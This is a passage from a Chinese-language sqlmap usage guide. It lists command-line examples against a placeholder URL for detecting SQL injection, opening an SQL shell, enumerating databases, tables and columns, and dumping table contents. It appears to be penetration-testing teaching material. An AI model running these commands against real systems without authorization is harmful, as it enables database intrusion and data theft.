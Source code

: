   - 示例

    :

    ```
    sqlmap -u "http://example.com/vulnerable.php?id=1" --sql-shell
    ```

- **`--dbms [dbms]`**:

  - **说明**: 指定数据库管理系统类型。如果自动检测不准确，可以手动指定。

  - 示例

    :

    ```
    sqlmap -u "http://example.com/vulnerable.php?id=1" --dbms=mysql
    ```

### **常见使用示例**

1. **检测 SQL 注入**：

   - 检测 URL 中的 SQL 注入漏洞：

     ```
     sqlmap -u "http://example.com/vulnerable.php?id=1"
     ```

2. **提取数据库列表**：

   - 列出目标中的所有数据库：

     ```
     sqlmap -u "http://example.com/vulnerable.php?id=1" --dbs
     ```

3. **提取表和列信息**：

   - 列出指定数据库中的所有表：

     ```
     sqlmap -u "http://example.com/vulnerable.php?id=1" -D mydatabase --tables
     ```

   - 列出指定表中的所有列：

     ```
     sqlmap -u "http://example.com/vulnerable.php?id=1" -D mydatabase -T mytable --columns
     ```

4. **提取数据**：

   - 从指定表中提取所有数据：

     ```
     sqlmap -u "http://example.com/vulnerable.php?id=1" -D mydatabase -T mytable --dump
     ```

5. **使用代理进行测试**：
